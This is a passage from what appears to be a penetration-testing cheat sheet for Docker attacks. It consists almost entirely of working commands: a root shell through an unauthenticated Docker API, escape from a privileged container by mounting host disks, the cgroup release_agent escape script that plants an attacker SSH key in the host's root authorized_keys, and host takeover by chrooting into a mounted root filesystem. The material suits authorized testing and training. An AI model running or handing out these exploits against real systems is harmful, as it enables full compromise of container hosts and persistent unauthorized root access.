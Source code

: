 ```c
$ docker -H <RHOST>:2375 run -it aa02ba520ac9 /bin/sh
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

### Container Escape through Privileged Containers

#### Access Privileged Container

```c
$ sudo docker exec -it --privileged -u root <CONTAINER> bash
```

#### Mount available Files from the Host

```c
$ mkdir -p /mnt/<FOLDER>
$ mount /dev/<FILE> /mnt/<FOLDER>/
$ cd /mnt/<FOLDER>
```

### Container Escape by exploiting cgroups

#### Requirements

* Already root inside a container
* The container must be run with the SYS_ADMIN Linux capability
* The container must lack an AppArmor profile, or otherwise allow the mount syscall
* The cgroup v1 virtual filesystem must be mounted read-write inside the container

#### Vulnerability Indicator Flag

```c
--security-opt apparmor=unconfined --cap-add=SYS_ADMIN
```

#### Script

```c
mkdir /tmp/exploit && mount -t cgroup -o rdma cgroup /tmp/exploit && mkdir /tmp/exploit/x
echo 1 > /tmp/exploit/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/exploit/release_agent

echo '#!/bin/sh' > /cmd
echo "echo '<SSH_KEY>' > /root/.ssh/authorized_keys" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/exploit/x/cgroup.procs"
```

### Privilege Escalation

```c
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh
```
  